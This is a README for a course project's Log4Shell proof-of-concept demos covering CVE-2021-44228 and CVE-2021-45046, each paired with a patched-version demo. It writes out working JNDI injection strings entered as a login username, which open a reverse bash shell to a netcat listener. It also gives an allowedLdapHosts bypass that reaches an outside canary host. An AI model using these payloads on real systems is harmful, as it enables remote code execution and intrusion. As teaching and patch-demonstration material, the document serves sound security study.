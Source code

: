 # CS4239 Group 5 Log4Shell Proof of Concepts (PoCs) and patch demos

This collection of PoCs and patch demos are a based on this PoC: [Github Link](https://github.com/kozmer/log4j-shell-poc)

CVEs covered:
1. CVE-2021-44228
2. CVE-2021-45046

## Requirements

Needs a system with x86_64 (AKA amd64) chipset.
Needs the following software:
1. Docker
2. docker-compose  

## Instructions to run PoCs and patch demos

All PoCs assume a starting directory which is the root of this repository.

### CVE-2021-44228

#### Background

If an application, usually a web application, used Log4j versions 2.14.1 and below, and directly logged user input, then they are vulnerable to Log4Shell exploits that perform JNDI lookup using Log4j's message lookup functionality, to at best, disclose information to attacker servers or cause Denial of Service (DoS) attacks, and at worst, perform a Remote Code Execution (RCE). This section will demonstrate a RCE PoC, and show how updating Log4j to v2.15.0 prevents the attack.

#### RCE PoC

##### Description

Demonstrates a RCE exploit that is possible on Log4j 2.14.1.

##### Instructions   

1. Run "cve-44228-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
![The 3 terminals](images/cve-44228_terminals.png)  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-44228 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.15.0, as message lookups are no longer enabled by default.

##### Instructions 

1. Run "cve-44228-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, as the message lookup does not execute.

### CVE-2021-45046

#### Background

Log4j v2.15.0, which patched CVE-2021-44228 by introducing a number of safety features, still had some vulnerabilities that could be exploited. This section will detail PoCs that take advantage of various vulnerabilties. The major vulnerability in Log4j v2.15.0 was that while message lookups were disabled, context lookups were still enabled. Hence if any input from users were saved as context variables, then attackers still had a way to perform lookups on their chosen input. Both PoCs in this section utilize this vulnerability to be able to perform lookups.

This section will demonstrate these PoCs, along with how updating Log4Shell to v2.16.0 and above prevents the attacks.

#### PoC of sending JNDI requests to external servers

##### Description

Log4j v2.15.0 introduced a limitation of JNDI over LDAP to only being able to access hosts on *allowedLdapHosts* property, which only contains localhost by default. This PoC demonstrates a bypass of this limitation on certain systems, in this case Alpine Linux.

##### Instructions 

1. Run "cve-45046-bypass-localhost/run.sh" in terminal. A vulnerable web server will start up in the terminal.
2. Go to `https://webhook.site/` to obtain a webhook URL. It should generate a unique URL.
3. Go to `https://canarytokens.org/generate#`. Select DNS token, and put in the unique URL in second input box. Then, put any message in the last input box.
    ![](./images/cve-45046_canary.png)
4. Navigate to `https://localhost:8080`. Input the string, `${jndi:ldap://localhost#YOUR_CANARYTOKEN}`. There should be a new DNS request with the memo, "exploited cve-2021-45046" (or any other text message that you put).
    ![](./images/cve-45046_dns.png)
5. This shows a successful LDAP request to a website that is not locally hosted -- bypassing the localhost restriction implemented in Log4J 2.15.0

#### PoC of RCE

##### Description

Log4j v2.15.0 introduced limitations on classes that are received over LDAP protocol to Java primitive objects by default. This PoC demonstrates a bypass using a Time-of-check to Time-of-use (TOCTOU) attack.

##### Instructions 

1. Run "cve-45046-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-45046 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.16.0 and above (in this case v2.17.0), as JNDI functionality is now disabled by default, meaning that the JNDI lookups required for successful RCE exploit in the previous case will not run by default.

##### Instructions 

1. Run "cve-45046-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, due to JNDI lookup not being performed. 